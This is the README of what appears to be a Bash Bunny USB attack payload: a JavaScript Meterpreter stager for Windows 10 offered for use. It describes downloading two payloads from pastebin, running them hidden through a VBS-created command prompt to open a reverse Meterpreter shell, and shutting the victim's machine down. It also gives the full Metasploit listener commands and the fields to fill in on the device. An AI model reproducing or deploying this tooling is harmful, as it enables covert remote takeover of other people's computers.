 JavaScript Meterpreter Stager Win x86_64

(Author: SubINclS | Version: Version 0.1 | Target: Windows 10)

Description:

  - Tested successful on Win10
  - Modified from following like:
    - https://github.com/Cn33liz/JSMeter/blob/master/JSMeter.js
      - Run js on target machine, cscript JSMeter.js
  - USB HID STORAGE Attck
    - Attempts HTTP(s) download of Two (2) additional payloads.
  - These files coinsist of:
    - BB-Meterpreter-Winx64.js -> Actual bytecode of Meterpreter Stager payload
    - inv.vbs -> creates hidden command terminal to execute commands
  - Attempts to execute the malicious payload in an automated fashion from hidden cmd prompts

Script Logic:

  - STAGE1():
    - if payload does not exist on target:
      - if inet connection:
        - Attempts HTTPS connection to pastebin
          - Grabs both payloads and save to %temp%
      - else:
        - Opens a cmd prompt, under current users context
          - Echo contents to two files:
            - BB-Meterpreter_winx64.js
            - inv.vbs
  - STAGE2():
    - Executes hidden cmdshell via inv.vbs, launching payload
  - STAGE3():
    - Shutdown 0

Configuration:

  - Listener:
    - use exploit/multi/handler
    - set PAYLOAD windows/(x64/|)meterpreter/reverse_tcp
    - set PAYLOAD windows/meterpreter/reverse_tcp
    - set LHOST 0.0.0.0
    - set LPORT 443
    - set EnableUnicodeEncoding true
    - set EnableStageEncoding true
    - set ExitOnSession false
    - exploit -j
  - BashBunny:
    - Edit JSRevMeter replacing the following:
      - RHOST =>  Remote Listening Host
      - RPORT =>  Remote Listening Port
      - FILE1 =>  Payload file1 URL, ex: http://t.co/43rg67
      - FILE2 =>  Payload file1 URL, ex: http://t.co/8ry8h0
    - Upload monilithic script to your BB

Status:

  - LED =>  Status/PHASE
  - G   =>  Power/INITILIZE
  - Off =>  Init/MOUNTING
  - G   =>  Stage1/EXECUTING
  - R   =>  Stage2/EXECUTING
  - B   =>  Stage3/SHUTDOWN
  - OFF =>  Remove Device from victim
